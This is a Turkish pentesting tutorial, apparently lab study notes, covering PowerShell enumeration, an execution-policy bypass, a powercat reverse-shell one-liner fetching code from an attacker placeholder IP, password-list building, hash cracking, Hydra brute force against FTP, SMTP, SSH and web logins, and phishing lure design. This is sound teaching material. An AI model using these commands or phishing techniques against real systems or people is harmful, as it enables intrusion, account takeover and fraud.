Get-Command | Get-Member -MemberType Method

Yukarıdaki resimden, yöntemler ve özellikler arasında da seçim yapabileceğinizi görebilirsiniz.

+ Önceki cmdletlerden objeler üretmek

Nesneleri manipüle etmenin bir yolu, özellikleri bir cmdlet'in çıktısından çıkarmak ve yeni bir nesne oluşturmaktır. Bu, Select-Object cmdlet'i kullanılarak yapılır.

Aşağıda dizinlerin listelenmesine ve yalnızca adın seçilmesine ilişkin bir örnek verilmiştir:

Belirli bilgileri seçmek için aşağıdaki bayrakları da kullanabilirsiniz:

    first - ilk x nesnesini alır
    last - son x nesnesini alır
    unique - benzersiz nesneleri gösterir
    skip - x nesneyi atlar

Örneğin :

+ Objeleri Filtreleme

Çıkış nesnelerini alırken çok özel bir değerle eşleşen nesneleri seçmek isteyebilirsiniz. Bunu, özelliklerin değerine göre filtrelemek için Where-Object'i kullanarak yapabilirsiniz.

Bu cmdlet'i kullanmanın genel biçimi şöyledir:

+ Fiil-İsim | Where-Object -Property ÖzellikAdı -operatör Değer

+ Fiil-İsim | Where-Object {$_.ÖzellikAdı -operator Değer}

İkinci kullanım, Where-Object cmdlet'ine iletilen her nesneyi yinelemek için $_ operatörünü kullanır.

Powershell oldukça hassastır, bu nedenle komutun etrafına tırnak işareti koymayın!

Burada -operatör aşağıdaki operatörlerin listesidir:

+ -Contains: özellik değerinde belirtilen değer geçiyorsa
+ -EQ: özellik değeri belirtilen değerle aynıysa
+ -GT: özellik değeri belirtilen değerden büyükse

Durdurulan süreçlerin kontrol edilmesine bir örnek:

+ Objeleri Sıralamak

Bir cmdlet çok fazla bilgi verdiğinde, bilgiyi daha verimli bir şekilde çıkarmak için onu sıralamanız gerekebilir. Bunu, bir cmdlet'in çıktısını Sort-Object cmdlet'ine aktararak yaparsınız.

Komutun formatı şöyle olacaktır:

Fiil-İsim | Sort-Object

Aşağıda dizin listesini sıralamaya ilişkin bir örnek verilmiştir:

     Get-ChildItem | Sort-Object

+ Powershell Örnek Komutlar ve Enumeration

Dosya aramak :

     Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue

Dosya okumak :

     cat dosya_adi

veya

     Get-Content dosya_adi

Bir komut çıktısı objesinde filtreleme sonucunda gelen objenin toplam satırını bulmak :

     Get-Command | Where-Object -Parameter CommandType -eq Cmdlet | measure

Bir dosyanın md5 sum'ını almak :

     Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5

Şuanki lokasyon bilgisi :

     pwd

veya

     Get-Location

Bir dizinin var olup olmadığı :

     Test-Path dizin

Base64 ile encode edilmiş bir dosyanın içeriğini okumak :

     $file = "C:\input.txt"
     $data = Get-Content $file

     [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data))

Bir makinedeki bütün kullanıcılar ve SID'leri :

     Get-LocalUser | Select-Object -Property Name,Enabled,Description,SID

Şifre istemeyen kullanıcılar :

     Get-LocalUser | Where-Object -Property PasswordRequired -Match false

Yerel gruplar

     Get-LocalGroup

IP Adres Bilgisi :

     Get-NetIPAddress

TCP Port Bilgileri

     Get-NetTCPConnection

Patch Bilgileri :

     Get-HotFix

Ayrıca piping ile Measure-Object diyerek girdileri saymak mümkün.

Sistemdeki tüm dosyalarda girilen veriyi aramak :

     Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY

İşlem Bilgisi :

     Get-Process

Planlanmış görevler (Linux crontab gibi) :

     Get-ScheduledTask

Bir dizinin/dosyanın sahibi :

     Get-Acl C:\

Örnek bir powershell programı :

     $files = Get-ChildItem -Recurse -File -Path "C:\Users\Administrator\Desktop\emails" -Name

     $search = "https://"

     cd "C:\Users\Administrator\Desktop\emails"

     foreach($file in $files){
          if(Get-Content $file | Select-String -Pattern $search){
               echo $file
          }
     }

Basit bir port scanner (TCP Connect Scan) :

     $ip_address = Read-Host "IP Address :"
     $starting_port = [System.Convert]::ToInt32((Read-Host "Starting port :"))
     $last_port = [System.Convert]::ToInt32((Read-Host "Last port :"))

     for($i=$starting_port; $i -le $last_port; $i++){
          $result = tnc $ip_address -port $i
          if($result.TcpTestSucceeded -eq "True"){
               echo $i + " is open"
          }
     }

#### Powershell Çalıştırma Politikası

Powershell dosyalarını cmd'den çalıştırmak için powershell -File dosya.ps1 kullanırız.

Fakat sistemlerin çoğunda bunu yapamayız çünkü çalıştırma politikası buna izin vermez.

PowerShell'in çalıştırma ilkesi, sistemi kötü amaçlı komut dosyalarının çalıştırılmasına karşı koruyan bir güvenlik seçeneğidir. Varsayılan olarak Microsoft, güvenlik amacıyla PowerShell komut dosyaları .ps1'in yürütülmesini devre dışı bırakır. PowerShell yürütme ilkesi Kısıtlı(Restricted) olarak ayarlanmıştır; bu, bireysel komutlara izin verdiği ancak herhangi bir komut dosyası çalıştırmadığı anlamına gelir.

Windows’unuzun mevcut PowerShell ayarını aşağıdaki gibi belirleyebilirsiniz,

Powershell'de --> Get-ExecutionPolicy

Bu politikayı kolayca değiştirebiliyoruz :

Powershell'de --> Set-ExecutionPolicy -Scope CurrentUser RemoteSigned

Eğer powershell'e erişimimiz yok ise bu kısıtlamayı bypass edebiliyoruz :

powershell -ex bypass -File dosya.ps1

#### Powershell ile Reverse Shell Almak

Bunun için powercat aracını kullanacağız. Powercat, netcat'in windows için tasarlanmış halidir. Windows'ta port dinleme, bir port'a bağlanma, dosya transferi vb. yapılabilir. Git clone ile powercat'i kendi makinemize çektikten sonra powercat dizinine girip burada http server başlatıyoruz : python -m http.server 8080 Daha sonra bağlantıyı dinleyeceğimiz portu listening moda alıyoruz : nc -lvp 1337 Kurban makinede aşağıdaki komutu çalıştırdığımızda reverse shell'imizi elde etmiş oluyoruz :

     powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://SALDIRGAN_IP:8080/powercat.ps1');powercat -c SALDIRGAN_IP -p 1337 -e cmd"

## Password Attacks (Parola Saldırıları)

Bu bölümde, şifre saldırılarında kullanılan türlere ve tekniklere değineceğiz. Özel şifre listeleri almanın ve oluşturmanın yollarını tartışacağız. Tartışacağımız konulardan bazıları şunlardır:

+ Şifre profili oluşturma
+ Şifrelere saldırı teknikleri
+ Çevrimiçi şifre saldırıları

### Password Cracking(Şifre Kırma) ve Password Guessing(Şifre Tahmini) Arasındaki Farklar

Password Cracking = Hacker'ın kendi local bilgisayarında, yetki yükseltme veya bir servise vb. erişim için bir hash'i, şifrelenmiş bir veriyi düz bir yazıya(plain-text)'e çevirmeye çalışmasıdır. Hacker burada hash'ı alınmış veriyi bu hash'tan bulmaya çalışır. Offline bir saldırı olduğu için log oluşmaz.

Password Guessing = Hacker'ın online protokol veya servislere vb. hedeflere brute-force, sözlük saldırısı gibi yöntemlerle saldırmasıdır. Burada amaç şifreyi bulmaktır. Saldırı online olarak gerçekleştiğinden dolayı bir sürü başarısız login logları oluşur. Bu yüzden hesap kilitlenebilir.

### Şifre Profili Oluşturma

Başarılı bir şifre saldırısı gerçekleştirmek için iyi bir kelime listesine sahip olmak çok önemlidir. Kullanıcı adı listelerini ve şifre listelerini nasıl oluşturabileceğinizi bilmek önemlidir. Bu bölümde hedefe yönelik kullanıcı adı ve şifre listeleri oluşturmayı tartışacağız.

#### Default (Varsayılan) Şifreler

Parola saldırıları gerçekleştirmeden önce, hedeflenen hizmete karşı birkaç varsayılan parolayı denemeyle başlayabiliriz. Üreticiler; switcher'lar, güvenlik duvarları, router'lar gibi ürün ve ekipmanlarla varsayılan şifreler belirler. Müşterilerin varsayılan şifreyi değiştirmediği ve sistemi savunmasız hale getiren senaryolar vardır. Bu nedenle admin:admin, admin:123456 vb.'yi denemek iyi bir uygulamadır. Hedef cihazı biliyorsak, varsayılan şifrelere bakıp bunları deneyebiliriz. Örneğin, hedef sunucunun hafif, açık kaynaklı bir Java uygulama sunucusu olan Tomcat olduğunu varsayalım. Bu durumda deneyebileceğimiz birkaç olası varsayılan şifre vardır: admin:admin veya Tomcat:admin.

Aşağıdaki websiteleri sayesinde saldırdığımız servisin vb. default şifrelerini görebiliriz :

https://default-password.info/
https://datarecovery.com/rd/default-passwords/
https://cirt.net/passwords

#### Weak (Zayıf) Şifreler

Profesyoneller zaman içinde zayıf şifre listeleri toplayıp oluşturur ve genellikle bunları büyük bir kelime listesi (wordlist) halinde birleştirir. Listeler, deneyimlerine ve sızma testlerinde gördüklerine göre oluşturulur. Bu listeler aynı zamanda kamuya açıklanmış sızdırılmış şifreleri de içerebilir. Yaygın olarak kullanılan zayıf şifre listelerinden bazıları şunlardır:

https://wiki.skullsecurity.org/index.php?title=Passwords
https://github.com/danielmiessler/SecLists

İnternette gezinerek birçok şifre listesi bulunabilir. (DarkWeb özellikle)

#### Leaked (Sızdırılmış) Şifreler

İhlal sonucunda şifreler veya hashler gibi hassas veriler kamuya açıklanabilir veya satılabilir. Kamuya açık veya özel olarak erişilebilen bu sızıntılara genellikle 'dumps' adı verilir. Dump'ın içeriğine bağlı olarak, bir saldırganın parolaları dumplardan çıkarması gerekebilir. Bazı durumlarda, dump yalnızca şifrelerin hashlerini içerebilir ve düz metin şifrelerini elde etmek için kırılmayı gerektirebilir. Webhost, Elitehacker, Hak5, Hotmail, PhpBB şirketlerinin sızıntıları da dahil olmak üzere zayıf ve sızdırılmış parolalara sahip yaygın parola listelerinden bazıları şunlardır:

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Leaked-Databases

İnternette ve DarkWeb forumlarında daha çok bulunabilir.

#### Combined (Birleştirilmiş) Şifre Listeleri

Birden fazla kelime listemiz olduğunu varsayalım. Bu kelime listelerini tek bir büyük dosyada birleştirebiliriz. Bu, cat kullanılarak aşağıdaki şekilde yapılabilir:

     cat wordlist1.txt wordlist2.txt wordlist3.txt > combined_list.txt

Tabi birleştirme sonrası aynı olan veriler çoğalabilir bunun için aşağıdaki komutu kullanırız :

     sort combined_list.txt | uniq -u > cleaned_combined_list.txt

#### Customized (Özelleştirilmiş) Şifre Listeleri

Parola listelerini özelleştirmek, geçerli kimlik bilgileri bulma şansını artırmanın en iyi yollarından biridir. Hedef web sitesinden özel şifre listeleri oluşturabiliriz. Çoğu zaman bir şirketin web sitesi, e-postalar ve çalışanların adları da dahil olmak üzere şirket ve çalışanları hakkında değerli bilgiler içerir. Ayrıca web sitesi, bir çalışanın şifresinde kullanılabilecek, ürün ve hizmet adları da dahil olmak üzere, şirketin sunduklarına özel anahtar kelimeler içerebilir!

Cewl gibi araçlar, bir web sitesini etkili bir şekilde taramak ve string veya anahtar kelimeleri çıkarmak için kullanılabilir. Cewl, belirli bir şirkete veya hedefe özel bir kelime listesi oluşturmak için güçlü bir araçtır. Aşağıdaki örnek bir kullanım mevcut :

     cewl -w wordlist.txt -d 5 -m 8 https://clinic.thmredteam.com

Yukarıdaki kod clinic.thmredteam.com web sitesini tarayarak bulduğu 8 karakter ve daha fazlasından oluşan kelimeleri wordlist.txt'ye kaydeder. -d parametresi taramanın ne kadar derinlikte olacağını belirtir.

Sonuç olarak, artık adlar, konumlar ve iş dillerinin çoğu gibi belirli bir kuruluşla ilgili kelimeleri temel alan uygun büyüklükte bir kelime listemiz olacaktır. Benzer şekilde, oluşturulan kelime listesi kullanıcı adlarını bulmak için kullanılabilir.

##### Username (Kullanıcı Adı) Kelime Listeleri

Enumeration aşamasında çalışanların isimlerinin toplanması esastır. Hedefin web sitesinden kullanıcı adı listeleri oluşturabiliriz. Aşağıdaki örnekte, bir {ad} {soyad} (örn: Yiğit Aydemir) ve kullanıcı adları oluşturma yöntemimiz olduğunu varsayacağız.

+ {ad}: Yiğit
+ {soyad}: Aydemir
+ {ad}{soyad}:  yigitaydemir 
+ {soyad}{ad}:  aydemiryigit  
+ {ad}'ın ilk harfi ve {soyad}: yaydemir 
+ {soyad}'ın ilk harfi ve {ad}: ayigit  
+ {ad}'ın ilk harfi.{soyad}: y.aydemir 
+ {ad}'ın ilk harfi-{soyad}: y-aydemir 
+ ve daha fazlası

Neyse ki, ad ve soyad varsa, olası kombinasyonların çoğunu içeren bir liste oluşturmamıza yardımcı olabilecek bir username_generator aracı var.

https://github.com/therodri2/username_generator

#### Keyspace (Şifre Aralığı) Şifre Listeleri

Kelime listesi hazırlamanın bir başka yolu da key-space tekniğini kullanmaktır. Bu teknikte kelime listemizde bir dizi karakter, sayı ve simge belirliyoruz. Crunch, çevrimdışı bir kelime listesi oluşturmaya yönelik birçok güçlü araçtan biridir. Crunch ile minimum, maksimum ve seçenekler de dahil olmak üzere çok sayıda seçeneği aşağıdaki gibi belirtebiliriz:

     crunch 4 4 0123456789 -o wordlist.txt

Görüldüğü gibi 4 haneli sayılardan oluşan tüm kombinasyonların barındığı bir wordlist ürettik.

Tabiki kombinasyonları arttırmak wordlist dosyamızın boyutunu da arttıracaktır, örneğin :

     crunch 8 8 0123456789abcdefABCDEF -o wordlist.txt

Bu komut ile 459 GB boyutunda bir wordlist ortaya çıkıyor ve 54875873536 tane kombinasyon mevcut.

crunch aynı zamanda -t seçeneğini kullanarak seçtiğimiz kelimeleri birleştirmek için bir karakter seti belirlememize de olanak tanır. Seçtiğiniz farklı kombinasyonları oluşturmanıza yardımcı olmak için kullanılabilecek diğer seçeneklerden bazıları şunlardır:

+ @ - küçük harfli alfa karakterler(abcdef...)
+ , - büyük harfli alfa karakterler (ABCDEF...)
+ % - Nümerik karakterler (0123456789)
+ ^ - özel karakterler (boşluk da dahil) (!'@*....)

Örneğin, şifrenin bir kısmı tarafımızdan biliniyorsa ve pass ile başladığını ve sonrasının iki rakam olduğunu biliyorsak, rakamları eşleştirmek için yukarıdaki % sembolünü kullanabiliriz. Burada pass ve ardından 2 sayı içeren bir kelime listesi oluşturuyoruz:

     crunch 6 6 -t pass%%

#### CUPP (Common User Password Profiller) (Yaygın Kullanıcı Şifreleri Profilcisi)

CUPP, özel kelime listeleri oluşturmak için Python ile yazılmış otomatik ve etkileşimli bir araçtır. Örneğin, belirli bir hedef hakkında doğum tarihi, evcil hayvan adı, şirket adı vb. gibi bazı ayrıntıları biliyorsanız, bu bilinen bilgilere dayanarak şifreler oluşturmak için yararlı bir araç olabilir. CUPP sağlanan bilgileri alacak ve sağlanan bilgilere göre özel bir kelime listesi oluşturacaktır. Ayrıca a, i,e, t, o, s, g, z harflerini sayılarla değiştiren 1337/leet modu desteği de mevcuttur. Örneğin, a'yı 4 veya i'yi 1 ile değiştirir.

CUPP, hedef hakkında sorular sorduğu ve verilen yanıtlara göre özel bir kelime listesi oluşturduğu etkileşimli bir modu destekler. Verilen alan için bir cevabınız yoksa Enter tuşuna basarak bu alanı atlayın.

ِSonuç olarak, girişlerinize göre çeşitli sayıda kelime içeren özel bir kelime listesi oluşturulur. Önceden oluşturulmuş kelime listeleri makinenize aşağıdaki şekilde indirilebilir:

İlginize bağlı olarak, brute-force yönelik kelime listeleri oluşturmaya yardımcı olması için yukarıdaki listeden kelime listesini seçebilirsiniz.

Son olarak CUPP, -a seçeneğini kullanarak Alecto veritabanından varsayılan kullanıcı adlarını ve şifreleri de sağlayabilir :

### Şifrelere Saldırma Teknikleri

Bu bölümde sözlük, kaba kuvvet ve kural tabanlı saldırılar dahil olmak üzere çevrimdışı saldırılar ele alınmaktadır.

#### Dictionary (Sözlük) Saldırısı

Sözlük saldırısı, iyi bilinen kelimeleri veya cümleleri kullanarak şifreleri tahmin etmek için kullanılan bir tekniktir. Sözlük saldırısı tamamen önceden oluşturulmuş veya bulunan önceden toplanmış kelime listelerine dayanır. Bu saldırıda başarılı olabilmek için hedefinize en uygun aday kelime listesini seçmeniz veya oluşturmanız önemlidir. Kelime listeleri oluşturmaya ilişkin önceki görevlerde öğrendiklerinizi kullanarak sözlük saldırısı gerçekleştirmeyi keşfedelim. Hash'leri kırmak için popüler bir araç olan hashcat'i kullanarak bir çevrimdışı sözlük saldırısı sergileyeceğiz.

Diyelim ki f806fc5a2a0d5ba2471600758452799c hash değerini elde ettik ve onu kırmak için bir sözlük saldırısı gerçekleştirmek istiyoruz. Öncelikle şunları bilmemiz gerekiyor:

1- Bu ne tür bir hash?
2- Hangi kelime listesini kullanacağız? Veya ne tür bir saldırı modunu kullanabiliriz?

Hash türünü tanımlamak için hashid veya hash-identifier(tanımlayıcı) gibi bir araç kullanabiliriz. Bu örnekte hash tanımlayıcı, olası hash yönteminin MD5 olduğunu söyledi. Ayrıca biz burada hash'ten bir değer çıkarmıyoruz(ki mümkün değil), biz wordlistteki her kelimenin hash'ini alıp bu hash ile karşılaştırıyoruz. Eğer çıkan hashler birbirini tutuyorsa şifreyi bulmuş oluyoruz. Dolayısıyla şifreyi bulmamız ekran kartı ve/veya işlemcimizin hash oluşturma hızına bağlıdır. Ne kadar güçlülerse o kadar hızlıdırlar. Örneğin RTX 4050 ve Intel Core i5-12450H ikilisi birlikte saniyede 250 bin üstü hash üretebilirler. Bu, saniyede 250 bin kombinasyonun denendiği demektir.

Şifremiz burada 'rockyou' olarak bulunuyor.

#### Brute-Force (Kaba Kuvvet) Saldırısı

Brute Force, saldırganın kişisel bir hesaba yetkisiz erişim sağlamak için kullandığı yaygın bir saldırıdır. Bu yöntem, standart şifre kombinasyonları göndererek kurbanın şifresini tahmin etmek için kullanılır. Sözlük ile brute force saldırısı arasındaki temel fark, sözlük saldırısının olası tüm parolaları içeren bir kelime listesi kullanmasıdır.

Bunun aksine, brute force saldırısı bir karakterin veya karakterlerin tüm kombinasyonlarını denemeyi amaçlar. Örneğin, yetkisiz erişime ihtiyaç duyduğumuz bir banka hesabımız olduğunu varsayalım. PIN'in şifre olarak 4 haneden oluştuğunu biliyoruz. Bu bilgiye dayanarak geçerli PIN'i tahmin etmek için 0000'den 9999'a kadar başlayan bir brute force saldırısı gerçekleştirebiliriz. Diğer durumlarda, bir listedeki mevcut kelimelere admin0, admin1, .. admin9999 gibi bir sayı veya harf dizisi eklenebilir.

Örneğin hashcat, kendi kombinasyonlarımızı oluşturmak için kullanılabilecek karakter kümesi seçeneklerine sahiptir. Karakter kümeleri hashcat yardım seçeneklerinde bulunabilir.

Aşağıdaki örnek, hashcat'i brute-force saldırı modu ile kendi seçimimiz bir kombinasyonla nasıl kullanabileceğimizi göstermektedir.

#### Rule-Based (Kural Tabanlı) Saldırılar

Kural Tabanlı saldırılar aynı zamanda hibrit saldırılar olarak da bilinir. Kural Tabanlı saldırılar, saldırganın parola politikası hakkında bir şeyler bildiğini varsayar. Kurallar, verilen şifre politikasının yönergeleri dahilinde şifre oluşturmak için uygulanır ve teorik olarak yalnızca geçerli şifreler oluşturmalıdır. Önceden var olan kelime listelerini kullanmak, bir politikaya uygun şifreler oluştururken yararlı olabilir; örneğin, 'password' gibi bir şifreyi manipüle etmek veya 'yönetmek': p@ssword, Pa$$word, Passw0rd vb.

Bu saldırı için kelime listemizi hashcat veya John the ripper kullanarak genişletebiliriz. Ancak bu saldırı için John the Ripper'ın nasıl çalıştığını görelim. Genellikle John the Ripper'ın, dağıtımınıza veya John'un nasıl kurulduğuna bağlı olarak /etc/john/john.conf veya /opt/john/john.conf konumunda bulunan, kural kümelerini içeren bir yapılandırma dosyası vardır. Mevcut tüm kuralları görmek için /etc/john/john.conf dosyasını okuyabilir ve List.Rules dosyasını arayabilirsiniz:

     cat /etc/john/john.conf|grep "List.Rules:" | cut -d"." -f3 | cut -d":" -f2 | cut -d"]" -f1 | awk NF

Kullanabileceğimiz birçok kuralın olduğunu görebiliriz. Kelime listesini nasıl genişletebileceğimizi görmek için 'password' içeren tek bir şifre içeren bir kelime listesi oluşturacağız. En iyi 64 yerleşik John kuralını içeren kurallardan birini, best64 kuralını seçelim ve neler yapabileceğini görelim.

     john --wordlist=tek_kelime.txt --rules=best64 --stdout

Şimdi başka bir kurala bakalım, John'un en iyi kurallarından biri olan KoreLogic'e. KoreLogic, karmaşık şifre listeleri oluşturmak için çeşitli yerleşik ve özel kurallar kullanır.

     john --wordlist=tek_kelime.txt --rules=KoreLogic --stdout

Birçok kural, mevcut bir kelime listesine kombinasyonlar uygular ve geçerli bir şifre bulma şansını artırmak için kelime listesini genişletir. En iyi kuralı bulmak size kalıyor.

##### Kendi Şifre Kuralımızı Oluşturalım

John the Ripper'ın sunabileceği çok şey var. Örneğin, kendi kuralımızı/kurallarımızı oluşturabilir ve bunu John hash'i kırarken çalışma zamanında kullanabiliriz veya kuralı özel bir kelime listesi oluşturmak için kullanabiliriz.

Diyelim ki, önceden var olan bir sözlükten, orijinal sözlüğe özel değişiklik yaparak özel bir kelime listesi oluşturmak istediğimizi varsayalım. Amaç, her kelimenin başına özel karakterler (örn: !@#$*&) eklemek ve sonuna 0-9 arası sayıları eklemektir. Format aşağıdaki gibi olacaktır:

[semboller]kelime[0-9]

Kuralımızı şu şekilde ekliyoruz :

Burada [List.Rules:myCustom] kuralımızın adını belirtir.

     Az = orijinal wordlistten bir kelimeyi belirtir (bizim durumumuzda bu password olacak.)

     "[0-9]" Bir rakamı kelimenin sonuna ekler. İki tane eklemek istiyorsak "[0-9][0-9]" diye devam eder.

     ^[!@#$] = Kelimenin başına bir özel karakter ekler. ^ işareti kelimenin başına anlamındadır. ^ işaretini $ ile değiştirmek kelimenini sonuna ekler.

Şimdi tek kelimelik şifre içeren (password) bir dosya oluşturalım ve bu kuralı kullanarak kelime listemizi nasıl genişletebileceğimizi görelim.

Görüldüğü gibi bir kelime listesinden 40 adet kelime listesi yapabildik.

### Çevrimiçi Şifre Saldırıları

Çevrimiçi parola saldırıları, HTTP, SSH, VNC, FTP, SNMP, POP3 vb. servisler de dahil olmak üzere, kullanıcı adı ve parola kimlik doğrulama şeması kullanan ağ bağlantılı hizmetler için parolaların tahmin edilmesini içerir. Bu bölüm, oturum açma saldırılarında kullanılan yaygın bir araç olan hydranın kullanımını içerir.

Hydra, saldırıya uğrayacak geniş bir ağ servisleri listesini destekler. Bu bölümde Hydra'yı kullanarak web giriş sayfaları, FTP, SMTP ve SSH gibi ağ hizmetlerine brute-force uygulayacağız. Genellikle Hydra'da her servisin kendi seçenekleri vardır ve Hydra'nın beklediği sözdizimine alışmak zaman alır. Daha fazla bilgi ve özellik için yardım seçeneklerini kontrol etmeniz önemlidir.

#### FTP

Aşağıdaki senaryoda, bir FTP sunucusuna brute-force saldırısı gerçekleştireceğiz. Hydra yardım seçeneklerini kontrol ederek FTP sunucusuna saldırmanın sözdiziminin aşağıdaki gibi olduğunu biliyoruz:

     hydra -l (kullanici_adi) -P (sifre_listesi) ftp://(ip_adresi)

Kullanici adını bilmiyorsak -L diyip kullanıcı adı listesi verebiliyoruz ya da şifreyi biliyorsak -p diyip şifreyi verebiliriz.

#### SMTP

FTP sunucularına benzer şekilde, Hydra kullanarak SMTP sunucularına da brute force uygulayabiliriz. Sözdizimi önceki örneğe benzer. Tek fark hedeflenen protokoldür. Diğer çevrimiçi şifre saldırı araçlarını denemek isterseniz port numarasını (25) belirtmeniz gerekebileceğini unutmayın. Aracın yardım seçeneklerini mutlaka okuyun.

     hydra -l email@service.com -P (sifre_listesi) smtp://(ip_adresi)

#### SSH

Sunucunuz İnternet'e erişebiliyorsa, SSH brute force yaygın olabilir. Hydra, SSH dahil birçok protokolü destekler. Saldırımızı gerçekleştirmek için önceki sözdizimini kullanabiliriz. Geçerli bir kullanıcı adı ve şifre bulma şansınızı artırmak için şifre saldırılarının mükemmel bir kelime listesine sahip olmaya dayandığını unutmamak önemlidir.

     hydra -L (kullanici_adi_listesi) -P (sifre_listesi) ssh://(ip_adresi)

#### HTTP Giriş Sayfaları

Bu senaryoda, HTTP giriş sayfalarına brute force uygulayacağız. Bunu yapmak için öncelikle brute force'un nereye olduğunu anlamalısınız. Hydra kullanıldığında, HTTP isteğinin türünü (GET veya POST) belirtmek önemlidir. Hydra seçeneklerini kontrol etmek için: hydra http-get-form -U, hydra'nın http-get-form seçeneği için aşağıdaki sözdizimine sahip olduğunu görebiliriz:

     <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

Daha önce de belirttiğimiz gibi göndermemiz gereken HTTP isteğini analiz etmemiz gerekiyor ve bu, tarayıcı geliştirme araçları kullanarak veya Burp Suite gibi bir web proxy'si kullanarak yapılabilir.

     hydra -l admin -P (sifre_listesi) 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f

-l admin tek bir kullanıcı adı belirliyoruz, kullanıcı adı kelime listesi için-L kullanın

-P Kelime listesinin tam yolunu belirten yol, -p kullanarak tek bir şifre belirleyebilirsiniz.

10.10.x.x hedefin IP adresi veya tam domain (FQDN).

http-get-form, http-get-form veya http-post-form olabilen HTTP isteğinin türü.

Daha sonra, aşağıdakileri kullanarak bölünen URL'yi, yolu ve koşulları belirtiriz:

login-get/index.php hedef web sunucusundaki oturum açma sayfasının yolu.

username=^USER^&password=^PASS^ parametrelerini brute-force'a aktarırız, belirtilen sözlükten brute-force kullanıcı adlarına ^USER^ ve şifrelerini de ^PASS^ enjekte ederiz. (username ve password parametreleri burp suite gibi proxy araçlarla bulunabilir.)

Aşağıdaki bölüm, 'başarısız' koşulunu F= ile belirterek hatalı pozitifleri ortadan kaldırmak için önemlidir.

Ve başarı koşulları, S=. Web sayfasını inceleyerek veya enumeration aşamasında bu koşullar hakkında daha fazla bilgi sahibi olacaksınız. Bu değerler için ayarladığınız şey, başarısız bir oturum açma girişimi ve başarılı bir oturum açma girişimi için sunucudan alacağınız yanıta bağlıdır. Örneğin, başarısız bir oturum açma sonrasında web sayfasında 'Geçersiz parola' mesajı alırsanız F=Geçersiz Parola olarak ayarlayın.

Veya örneğin enumeration sırasında web sunucusunun logout.php hizmetini verdiğini gördük. Geçerli kimlik bilgileriyle giriş sayfasına giriş yaptıktan sonra, sayfanın bir yerinde logout.php dosyasının bulunacağını tahmin edebiliriz. Bu nedenle Hydra'ya her istek için HTML'de logout.php metnini aramasını söyleyebiliriz.

S=logout.php geçerli kimlik bilgilerini tanımlamak için başarı koşulu

-f geçerli bir kullanıcı adı ve şifre bulduktan sonra kaba kuvvet saldırılarını durdurmak için 

Son olarak, bilginizi genişletmek için aşağıdakiler gibi diğer çevrimiçi şifre saldırısı araçlarını kontrol etmeye değer:

    Medusa
    Ncrack
    ve diğerleri

## Phishing (Oltalama) Saldırıları

Phishing'in ne olduğunu öğrenmeden önce sosyal mühendislik terimini anlamanız gerekir. Sosyal mühendislik, insan doğasındaki zayıflıklardan yararlanarak insanların bilgi vermesine veya ifşa etmesine yönelik psikolojik manipülasyondur. Bu "zayıflıklar" merak, kıskançlık, açgözlülük ve hatta nezaket ve birine yardım etme isteği olabilir. Phishing, birisinin kişisel bilgilerini, kimlik bilgilerini ifşa etmesi ve hatta bilgisayarında kötü amaçlı kod çalıştırması için kandırmak amacıyla e-posta yoluyla vs. gönderilen bir sosyal mühendislik kaynağıdır.

Bu e-postalar genellikle ister bir kişi ister işletme olsun, güvenilir bir kaynaktan geliyormuş gibi görünecektir. İnsanları yazılım indirmeye, ekleri açmaya veya sahte bir web sitesine giden bağlantıları takip etmeye teşvik etmeye veya kandırmaya çalışan içerikler içerirler.

Karşılaşacağınız bir terim ve kırmızı ekibin katılacağı phishing kampanyası türü, fiziksel bir mızrak fırlatma gibi hedef odaklı phishing'tir; Hedeflemeniz gereken bir hedefiniz varsa, spear-phishing için de aynı şey söylenebilir; kitlesel herhangi bir kişiyi değil, bir bireyi, işletmeyi veya kuruluşu hedef alıyorsunuz. Bu, kırmızı ekip katılımı için etkili bir phishing biçimidir çünkü bunlar hedefe özel olarak tasarlanmıştır ve spam filtreleri, antivirüs ve güvenlik duvarları gibi teknolojilerle tespit edilmelerini zorlaştırır.

Bir işletmenin bu tür saldırılara karşı savunmasız olup olmadığını görmek için yalnızca phishing değerlendirmesi yapması için kırmızı bir ekiple sözleşme yapılabilir veya daha geniş ölçekli bir değerlendirmenin parçası olabilir ve bilgisayar sistemlerine veya hizmetlerine erişim sağlamak için kullanılabilir.

Diğer ortamlar aracılığıyla yapılan phishing'in diğer bazı yöntemleri, SMS mesajları yoluyla kimlik avı anlamına gelen smishing ve telefon görüşmeleri yoluyla gerçekleştirilen vishing'dir.

Örnek Senaryo:

Aşağıdaki örnek senaryo, bir şirket çalışanının kimlik bilgilerini ifşa etmesi için nasıl kandırılabileceğini göstermektedir.

1) Saldırgan hedef işletmenin fiziksel konumunu tespit eder.

2) Saldırgan daha sonra yakındaki gıda tedarikçilerini arar ve Ultimate Cookies adında bir şirket keşfeder.

3) Saldırgan, Ultimate-cookies.thm domain'ini alır.

4) Saldırgan daha sonra hedefine bir e-posta göndererek, web sitesine kaydolmaları halinde ücretsiz kurabiye alma teklifiyle onları cezbeder. Kurbanın bu yerel şirketin adını duyduğu için ona güvenme olasılığı daha yüksektir.

5) Kurban daha sonra e-postadaki saldırgan tarafından oluşturulan sahte web sitesine giden bağlantıyı takip eder ve çevrimiçi kaydolur. İşleri basitleştirmek için kurban, tüm çevrimiçi hesapları için aynı şifreyi yeniden kullanabilir.
6) Saldırgan artık kurbanın e-posta adresine ve şifresine sahiptir ve kurbanın şirket e-posta hesabında oturum açabilir. Saldırgan artık özel şirket bilgilerine erişebilir ve ayrıca diğer çalışanlara karşı başka bir phishing saldırısı başlatabileceği bir yere sahip olabilir.

### İnandırıcı Phishing Emailleri Yazmak

Phishing emailleriyle ilgili olarak üzerinde çalışmamız gereken üç şey var: gönderecinin email adresi, konu ve içerik.

#### Göndericinin Email Adresi

İdeal olarak gönderenin adresi, önemli bir markayı, bilinen bir kişiyi veya bir iş arkadaşını taklit eden bir domainden olmalıdır.

Kurbanın hangi marka veya kişilerle etkileşime girdiğini bulmak için OSINT (Açık Kaynak İstihbarat) taktiklerini kullanabilirsiniz. Örneğin:

+ Konuştukları markalar veya arkadaşlar için sosyal medya hesaplarını gözlemleyin.
